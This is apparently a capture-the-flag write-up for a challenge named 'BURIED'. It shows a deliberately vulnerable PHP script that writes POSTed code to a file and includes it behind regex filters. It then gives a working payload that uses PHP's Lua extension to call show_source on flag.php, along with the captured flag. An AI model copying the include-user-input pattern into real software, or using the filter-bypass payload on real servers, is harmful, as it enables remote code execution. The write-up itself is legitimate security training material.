

### BURIED


Given the source code 

```php
<?php

show_source(__FILE__);


if (sizeof($_REQUEST)===1 && sizeof($_POST)===1){
    $cmd=$_POST['cmd'];    
    $a=array('!','#','%','&','\*','\+','\/',':','\?','@','\[','\]','\^','`','\{','\|','\}','~','[0-9]');
    if (isset($cmd)){
        if(preg_match('/.*show_source.*\(/i',$cmd)===0 && preg_match('/\"(\s)*show_source(\s)*\"(\s)*;/', $cmd)===0 ){
            if(preg_match_all('/\$([a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*)(\s)*=/', $cmd, $matches)<=1){
                if(preg_match('/\((.*)(!\.)\)/i', $cmd)===0 && substr_count($cmd, '.')<=1){
                    $exists=0;
                    foreach ($a as $key) {
                        if(preg_match("/(\.)*".$key."(\.)*/",$cmd)){
                            print($key);
                            $exists+=1;
                        }
                    }
                    if($exists===0){

                        if(!(preg_match('~(?:#|//|\/\*)[^\r\n]*|/\*.*?\*/~',$cmd))){
                        $file="./files/".rand().'.php';
                        file_put_contents($file,'<?php '.$cmd.' ?>');
                        include($file);

                    }else{
                        die("How dare u!");
                    }
                }else{
                    die("How dare u!");
                }

                }else{
                    die("How dare u!");
                }


            }else{
                die("How dare u!");
            }


        }else{
            die("How dare u!");
        }

    }else{
        die("How dare u!");
    }
}else{
    die("How dare u!");
}

?>

```


A lot of filters were put in there (comments,concatenation,special chars,multiples variables declaration ,...)

Let’s get more information via phpinfo.

You ll notice that most of the functions are disabled but there is one interesting thing which is ***Lua extension*** .




Since you can’t execute ***show_source*** directly , register it to lua  using the  method ***registerCallback***

and here is the payload:

```php
$cmd=$lua = new Lua();
$lua->registerCallback("echo", "show_source");
$lua->eval(<<<CODE
      echo("flag.php");

CODE
);
```


You get the flag  **FwordCTF{lu4_Lu4_lUa_lua_I_still_ex1st_u_damn_h4ck3rs}**
